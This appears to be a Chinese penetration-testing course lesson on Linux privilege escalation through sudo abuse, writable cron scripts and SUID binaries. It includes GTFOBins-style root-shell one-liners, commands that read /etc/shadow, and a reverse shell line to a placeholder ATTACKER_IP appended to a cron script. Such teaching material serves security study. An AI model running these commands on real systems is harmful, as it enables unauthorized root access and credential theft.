# 课程P74：Linux权限提升 - 定时任务与SUDO滥用 🚀

在本节课中，我们将学习Linux系统中的两种重要权限提升方法：利用定时任务（Cron Jobs）和滥用SUDO权限。我们将了解其原理，并通过实际例子演示如何发现和利用这些配置缺陷来获得更高的系统权限。

---

## 第一部分：滥用SUDO权限提权 🔓

上一节我们介绍了课程概述，本节中我们来看看如何通过滥用配置不当的SUDO权限进行提权。




SUDO是Linux系统的一个管理指令，它允许系统管理员让普通用户以root或其他用户的身份执行命令。其核心作用是实现权限的临时提升。

**SUDO命令的执行流程**如下：
1.  当前用户通过SUDO命令，临时转换为root用户（或其他指定用户）。
2.  以转换后的高权限身份执行命令。
3.  命令执行完毕后，立即退回到原普通用户身份。

**需要注意的关键点**：
*   执行`sudo`时输入的密码是**当前用户自己的密码**，而非root密码。
*   SUDO的配置文件是`/etc/sudoers`，其文件权限为`0440`，只有root用户和root组有权读取。
*   管理员在该文件中配置哪些用户或组能以何种方式使用`sudo`。



### 查看当前用户的SUDO权限

以下是两个用于查看当前用户SUDO权限的关键命令：

*   **`sudo -l`**：列出当前用户可以通过`sudo`执行的命令列表。
*   **`sudo -s`**：启动一个由环境变量或`/etc/passwd`文件指定的shell。如果以`sudo`执行，则会获得一个root权限的shell。

### 利用SUDO权限进行提权

当我们通过`sudo -l`发现当前用户可以以root身份执行某些特定命令时，就可以尝试利用这些命令进行提权。关键在于理解这些命令能否被用来执行任意代码或启动shell。

这里介绍一个非常有用的资源项目：**GTFOBins**。该项目收集了大量Unix/Linux二进制程序（命令）的利用方法，特别是在拥有SUDO或SUID权限时的提权技巧。

**利用思路**：
1.  使用`sudo -l`命令，获取允许执行的命令列表。
2.  将列表中的命令与GTFOBins项目中的条目进行比对。
3.  按照GTFOBins提供的利用方法执行命令，尝试获取root shell。



以下是几个常见的命令利用示例：





**1. 利用 `bash` 或 `sh` 提权**
如果允许执行`sudo bash`或`sudo sh`，这是最直接的提权方式，会直接获得一个root shell。
```bash
sudo bash
# 或
sudo sh
```



**2. 利用 `awk` 提权**
`awk`是一个强大的文本处理工具，也可以用来执行系统命令。
```bash
# 方法一：直接获取shell
sudo awk 'BEGIN {system("/bin/bash")}'

# 方法二：读取受保护文件（如shadow）
sudo awk '{print $1,$2}' /etc/shadow
```



**3. 利用 `curl` 提权**
`curl`可用于文件传输，也能读取本地文件。
```bash
# 读取本地受保护文件
sudo curl file:///etc/shadow
```


**4. 利用 `find` 提权**
`find`命令的`-exec`参数可以执行命令。
```bash
sudo find / -name test -exec /bin/bash \;
```







---

## 第二部分：Linux定时任务（Cron Jobs）提权 ⏰


上一节我们介绍了如何滥用SUDO权限，本节中我们来看看另一种常见的提权向量——Linux定时任务。

定时任务（Cron Jobs）是Linux系统中用于计划执行周期性任务的工具。任务定义在`/etc/crontab`文件或`/etc/cron.*/`目录以及用户自己的crontab列表中。

**提权原理**：
如果系统中存在权限配置不当的定时任务（例如，任务以root权限运行，但任务脚本或目录的写权限被错误地赋予了普通用户），攻击者就可以通过修改这些脚本或文件，在预定时间以root身份执行恶意代码。

**发现与利用步骤**：
1.  **查找定时任务**：检查系统crontab文件。
    ```bash
    cat /etc/crontab
    ls -la /etc/cron.*/
    ```
2.  **分析任务权限**：查看定时任务执行的脚本或命令，检查其所在路径、脚本文件本身以及上级目录的权限。
    ```bash
    ls -la /path/to/cron_script.sh
    ```
3.  **利用写权限**：如果发现普通用户对某个root定时任务脚本有写权限，可以直接修改该脚本，插入反弹shell或添加用户等恶意命令。
    ```bash
    echo 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1' >> /path/to/cron_script.sh
    ```
4.  **利用路径劫持**：如果定时任务通过相对路径调用命令，并且该路径的某个父目录对普通用户可写，可以将恶意可执行文件放在该目录下，并确保它在系统PATH中先被找到。

---

## 第三部分：SUID特殊权限提权 ⚡

除了SUDO和定时任务，SUID（Set User ID）权限也是一个重要的提权点。

**SUID权限原理**：
当一个具有SUID权限的可执行文件被运行时，该进程将**继承文件所有者的权限**，而不是执行者的权限。例如，如果`/usr/bin/bash`的所有者是root且设置了SUID位，那么普通用户执行它时，就会获得一个root shell。

**查找SUID文件**：
```bash
find / -type f -perm -u=s 2>/dev/null
```

**利用SUID提权**：
1.  使用上述命令查找系统中所有的SUID文件。
2.  将找到的二进制文件名在GTFOBins网站中搜索。
3.  如果该文件在GTFOBins中被标记为`SUID`可利用，则按照其提供的方法执行，通常能直接获得文件所有者（常为root）权限的shell。

**常见例子**：
*   `find`、`bash`、`nmap`（旧版本）、`vim`、`less`、`more`等命令，如果配置了SUID权限，都可能被用来提权。具体利用方法需参考GTFOBins。






---




## 第四部分：其他提权实例与思路 💡




在实际渗透测试中，提权思路远不止以上几种。本节我们简要介绍其他一些常见的提权方向。




*   **内核漏洞提权**：利用Linux内核本身的漏洞进行提权。需要查找系统版本对应的公开EXP。
*   **敏感信息泄露**：在配置文件、历史命令、日志文件、数据库文件中寻找密码或密钥。
*   **服务漏洞**：系统中运行的服务（如MySQL、Redis、Docker）可能存在漏洞或配置问题，导致权限提升。
*   **环境变量劫持**：通过操纵`LD_PRELOAD`、`PATH`等环境变量，影响高权限程序的执行。
*   **滥用功能软件**：如利用`python`、`perl`、`php`等解释器执行系统命令。


**通用提权检查流程**：
1.  信息收集：系统版本、内核版本、运行进程、安装软件、网络连接等。
2.  自动化脚本：使用如`LinEnum`、`linuxprivchecker.py`等脚本进行初步检查。
3.  手动验证：根据脚本输出和自身知识，对可疑点进行深入分析和利用尝试。

---



## 总结 📝



本节课中我们一起学习了Linux系统下几种关键的权限提升技术：
1.  **SUDO权限滥用**：通过`sudo -l`查看可用命令，并利用GTFOBins等资源，将允许执行的命令转化为获取root shell的途径。
2.  **定时任务提权**：分析系统crontab，利用对高权限定时任务脚本或目录的写权限，植入恶意代码。
3.  **SUID权限提权**：查找具有SUID位的可执行文件，并利用其继承文件所有者权限的特性进行提权。
4.  **其他提权思路**：包括利用内核漏洞、寻找敏感信息、攻击本地服务等多种方法。


